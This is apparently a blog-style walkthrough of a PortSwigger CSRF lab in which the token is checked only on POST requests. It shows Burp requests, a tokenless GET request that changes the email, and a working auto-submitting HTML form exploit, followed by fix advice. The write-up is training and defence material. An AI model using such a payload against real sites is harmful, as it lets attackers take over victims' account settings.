


# Outsmarting a Half-Baked CSRF Token

## How I Found This Lab

I was moving through the PortSwigger CSRF labs and hit one that looked trickier at first glance. The application actually had a CSRF token in place, which made me think the protection might be solid. But the lab title hinted that something was off with how the token was being validated. I decided to dig in and see if I could find a way around it.

**Lab:** CSRF where token validation depends on request method  
**Category:** Cross-Site Request Forgery (CSRF)  
**Difficulty:** Practitioner  
**Status:** Solved

---

## What I Was Up Against

The application was trying to protect its email change functionality with a CSRF token. My goal was to bypass that protection and change the victim's email address using an exploit hosted on the PortSwigger exploit server.

I started by logging in with the provided credentials.

```text
Username: wiener
Password: peter
```

---

## Step 1: Capturing the Email Change Request

I navigated to the account page, changed my email address, and captured the request in Burp Suite.

### Screenshot


---

## Step 2: Testing the CSRF Token

I sent the captured request to Burp Repeater and tried modifying the CSRF token to see if the server would catch it.

```http
POST /my-account/change-email HTTP/2

csrf=invalidtoken
email=test@example.com
```

I sent the request and watched the response. It got rejected. Good, the token validation was working for POST requests.

### Screenshot


---

## Step 3: The Breakthrough

Then I had an idea. What if the server only validates the token for POST requests? I converted the request to GET and stripped out the CSRF parameter entirely.

```http
GET /my-account/change-email?email=attacker@evil.com HTTP/2
```

I sent it. The email address updated successfully. I couldn't believe it. The application was enforcing CSRF protection on POST but completely ignoring it for GET requests to the same endpoint.

### Screenshot


---

## Step 4: Building My Exploit

Since GET requests didn't need a token, I could use a simple form submission without any CSRF token at all. The browser would automatically convert the form into a GET request. I built the exploit and hosted it on the exploit server:

```html
<html>
<body>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.forms[0].submit();
</script>

</body>
</html>
```

### Screenshot



---

## Step 5: Delivering the Exploit

I stored the exploit on the exploit server, delivered it to the victim, and watched as the victim's email address changed automatically. The lab was marked as solved.

### Screenshot



---

## Why This Matters

I bypassed the CSRF protection entirely just by using a different HTTP method than the one the application expected.

Successful exploitation allows unauthorized actions to be performed on behalf of authenticated users, including modification of sensitive account information.

---

## What Went Wrong on the Server Side

The application performs CSRF token validation only for POST requests while allowing the same state-changing functionality through GET requests.

This inconsistent validation creates a bypass that renders the CSRF protection ineffective.

---

## How to Fix It

If I were patching this, I would:

1. Enforce CSRF validation for all state-changing operations.
2. Do not allow sensitive actions through GET requests.
3. Validate CSRF tokens regardless of request method.
4. Use SameSite cookie protections.
5. Follow the principle that GET requests should be idempotent and should never modify application state.

---

## What I Learned

This lab drove home an important lesson: partial protection can be worse than no protection because it gives developers a false sense of security. The application had a CSRF token, but because it only checked it for POST requests, the entire mechanism was useless. I learned to always test whether state-changing operations are accessible through multiple HTTP methods, and to never assume that a security control is working just because it exists.
